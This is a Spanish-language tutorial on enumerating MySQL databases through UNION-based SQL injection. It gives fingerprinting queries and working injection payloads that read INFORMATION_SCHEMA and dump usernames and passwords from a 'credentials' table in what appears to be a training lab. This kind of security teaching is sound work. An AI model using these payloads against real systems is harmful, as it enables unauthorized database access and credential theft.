

# Enumeración de bases de datos

En las secciones anteriores, aprendimos sobre diferentes consultas SQL en `MySQL` y las inyecciones SQL y cómo utilizarlas. Esta sección pondrá todo eso en uso y recopilará datos de la base de datos mediante consultas SQL dentro de inyecciones SQL.



### 1. Huella digital MySQL

Antes de enumerar la base de datos, normalmente necesitamos identificar el tipo de DBMS con el que estamos tratando. Esto se debe a que cada DBMS tiene consultas diferentes y saber de qué se trata nos ayudará a saber qué consultas utilizar.

Como suposición inicial, si el servidor web que vemos en las respuestas HTTP es `Apache` o `Nginx`, es una buena suposición que el servidor web se ejecuta en Linux, por lo que es probable que el DBMS sea `MySQL`. Lo mismo se aplica también a Microsoft DBMS si el servidor web lo es `IIS`, por lo que es probable que sea `MSSQL`. Sin embargo, esta es solo una suposición, ya que se pueden utilizar muchas otras bases de datos tanto en el sistema operativo como en el servidor web. Entonces, hay diferentes consultas que podemos probar para identificar el tipo de base de datos con la que estamos tratando.

Mientras cubrimos `MySQL` en este módulo, tomemos las huellas dactilares de bases de datos `MySQL`. Las siguientes consultas y sus resultados nos dirán que estamos tratando con `MySQL`:

| Carga útil         |                                       Cuándo usarlo | Salida esperada                                                     | Salida incorrecta                                         |
| ------------------ | --------------------------------------------------: | ------------------------------------------------------------------- | --------------------------------------------------------- |
| `SELECT @@version` | Cuando tenemos el resultado completo de la consulta | Versión MySQL, p.ej. `10.3.22-MariaDB-1ubuntu1`                     | En MSSQL devuelve la versión MSSQL. Error con otros DBMS. |
| `SELECT POW(1,1)`  |                 Cuando solo tenemos salida numérica | `1`                                                                 | Error con otros DBMS                                      |
| `SELECT SLEEP(5)`  |                                    Ciego/Sin salida | Retrasa la respuesta de la página durante 5 segundos y regresa `0`. | No retrasará la respuesta con otros DBMS                  |

Ejemplo de salida para `@@version`:



La salida `10.3.22-MariaDB-1ubuntu1` significa que estamos ante un `MariaDB` (similar a MySQL). Dado que tenemos salida de consulta directa, no tendremos que probar las otras cargas útiles, aunque podemos probarlas para confirmar comportamiento.



### 2. Base de datos INFORMATION\_SCHEMA

Para extraer datos de tablas usando `UNION SELECT`, necesitamos formar adecuadamente nuestras consultas `SELECT`. Para ello necesitamos la siguiente información:

* Lista de bases de datos
* Lista de tablas dentro de cada base de datos
* Lista de columnas dentro de cada tabla

Con la información anterior, podemos formar nuestra sentencia `SELECT` para volcar datos de cualquier columna en cualquier tabla dentro de cualquier base de datos del DBMS. Aquí es donde podemos utilizar la base de datos `INFORMATION_SCHEMA`.

La base de datos INFORMATION\_SCHEMA contiene metadatos sobre las bases de datos y tablas presentes en el servidor. Esta base de datos juega un papel crucial a la hora de explotar las vulnerabilidades de inyección SQL. Como se trata de una base de datos diferente, no podemos llamar a sus tablas directamente sin calificar el nombre con la base de datos. Si solo especificamos el nombre de una tabla para una declaración `SELECT`, buscará tablas dentro de la misma base de datos.

Para referenciar una tabla presente en otra base de datos usamos el operador punto `.`. Por ejemplo:

```sql
SELECT * FROM my_database.users;
```

De manera similar, podemos observar las tablas presentes en el `INFORMATION_SCHEMA`.



### 3. ESQUEMAS (Bases de datos)

La tabla SCHEMATA en `INFORMATION_SCHEMA` contiene información sobre todas las bases de datos del servidor. Se utiliza para obtener nombres de bases de datos para luego poder consultarlos. La columna `SCHEMA_NAME` contiene todos los nombres de bases de datos presentes actualmente.

Ejemplo local:

```shell-session
mysql> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

+--------------------+
| SCHEMA_NAME        |
+--------------------+
| mysql              |
| information_schema |
| performance_schema |
| ilfreight          |
| dev                |
+--------------------+
6 rows in set (0.01 sec)
```

Vemos las bases de datos `ilfreight` y `dev`.


Nota: Las primeras tres bases de datos (`mysql`, `information_schema`, `performance_schema`) son bases de datos MySQL predeterminadas y están presentes en cualquier servidor, por lo que generalmente las ignoramos durante la enumeración. A veces también hay una cuarta base de datos `sys`.


Ejemplo de `UNION` SQL para listar esquemas vía inyección:

```sql
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```

Imagen de salida esperada:


Para saber en qué base de datos se ejecuta la aplicación web (la base por defecto), podemos usar:

```sql
cn' UNION select 1,database(),2,3-- -
```

Ejemplo de resultado:


En el ejemplo vemos que la base de datos por defecto es `ilfreight`. La base `dev` también parece interesante, así que intentaremos recuperar sus tablas.



### 4. TABLAS

Para listar tablas dentro de una base de datos usamos la tabla `TABLES` en `INFORMATION_SCHEMA`. Nos interesan las columnas `TABLE_SCHEMA` y `TABLE_NAME`. `TABLE_NAME` almacena los nombres de las tablas y `TABLE_SCHEMA` apunta a la base de datos a la que pertenece cada tabla.

Ejemplo de carga útil para encontrar tablas dentro de la base de datos `dev`:

```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```

Imagen de salida:


Nota: agregamos la condición `where table_schema='dev'` para devolver solo tablas de la base de datos `dev`, de lo contrario obtendríamos todas las tablas en todas las bases de datos.

En el ejemplo se ven cuatro tablas en la base de datos `dev`: `credentials`, `framework`, `pages`, y `posts`. La tabla `credentials` puede contener información sensible, por lo que la investigaremos.



### 5. COLUMNAS

Para volcar datos desde la tabla `credentials`, primero necesitamos conocer los nombres de columnas. La tabla `COLUMNS` en `INFORMATION_SCHEMA` contiene esa información. Las columnas relevantes son `COLUMN_NAME`, `TABLE_NAME` y `TABLE_SCHEMA`.

Carga útil de ejemplo para encontrar nombres de columna en `credentials`:

```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```

Imagen de salida:


La tabla tiene dos columnas llamadas `username` y `password`. Con esos nombres podemos realizar la consulta para extraer los datos.



### 6. Volcado de datos

Ahora que tenemos la base de datos (`dev`), la tabla (`credentials`) y los nombres de columna (`username`, `password`), podemos formar la consulta `UNION` para volcar los datos:

```sql
cn' UNION select 1, username, password, 4 from dev.credentials-- -
```

Recuerde: use el operador de puntos para calificar la tabla (`dev.credentials`) porque estamos ejecutando la consulta desde la base de datos por defecto (`ilfreight`) y queremos acceder a la tabla en `dev`.

Ejemplo de resultado obtenido:


Pudimos obtener todas las entradas en la tabla `credentials`, que contiene información confidencial como hashes de contraseñas y una clave API.


